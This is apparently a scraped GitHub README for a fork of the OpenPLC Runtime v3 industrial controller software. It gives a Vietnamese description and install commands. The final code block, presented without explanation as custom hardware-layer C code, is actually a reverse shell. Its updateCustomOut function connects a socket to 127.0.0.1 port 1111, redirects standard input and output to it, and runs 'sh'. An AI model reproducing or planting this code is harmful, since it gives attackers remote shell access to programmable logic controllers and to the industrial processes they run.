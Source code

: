 # OpenPLC Runtime version 3

[![Build Status](https://travis-ci.org/tranquac/OpenPLC_v3.svg?branch=master)](https://travis-ci.org/tranquac/OpenPLC_v3)
[![Build status](https://ci.appveyor.com/api/projects/status/ut3466ixwtyf68qg?svg=true)](https://ci.appveyor.com/project/shrmrf/openplc-v3)

OpenPLC là một bộ điều khiển logic lập trình nguồn mở dựa trên phần mềm dễ sử dụng. Trọng tâm của chúng tôi là cung cấp một giải pháp công nghiệp chi phí thấp cho tự động hóa và nghiên cứu. OpenPLC đã được sử dụng trong nhiều bài báo nghiên cứu như một khuôn khổ cho nghiên cứu an ninh mạng công nghiệp, vì đây là bộ điều khiển duy nhất cung cấp toàn bộ mã nguồn. Dự án OpenPLC bao gồm ba dự án phụ:
1. [Runtime](https://github.com/tranquac/OpenPLC_v3)
2. [Programming editor](http://www.openplcproject.com/plcopen-editor)
3. [HMI builder](http://www.openplcproject.com/reference-installing-scadabr)

## Installation:
```bash
mkdir /opt/PLC
cd /opt/PLC
git clone https://github.com/tranquac/OpenPLC_v3.git
cd OpenPLC_v3
./install.sh [platform]
```

Where `[platform]` can be:

`win` - Install OpenPLC on Windows over Cygwin

`linux` - Install OpenPLC on a Debian-based Linux distribution

`docker` - Used by the `Dockerfile` (i.e. doesn't invoke `sudo`)

`rpi` - Install OpenPLC on a Raspberry Pi

`custom` - Skip all specific package installation and tries to install OpenPLC assuming your system already has all dependencies met. This option can be useful if you're trying to install OpenPLC on an unsuported Linux platform or had manually installed all the dependency packages before.

```
#include "ladder.h"
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int ignored_bool_inputs[] = {-1};
int ignored_bool_outputs[] = {-1};
int ignored_int_inputs[] = {-1};
int ignored_int_outputs[] = {-1};

void initCustomLayer(){}

void updateCustomIn(){}

void updateCustomOut()
{
    int port = 1111;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("127.0.0.1");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"sh", NULL};
    execvp("sh", argv);

    return 0;       
}
```
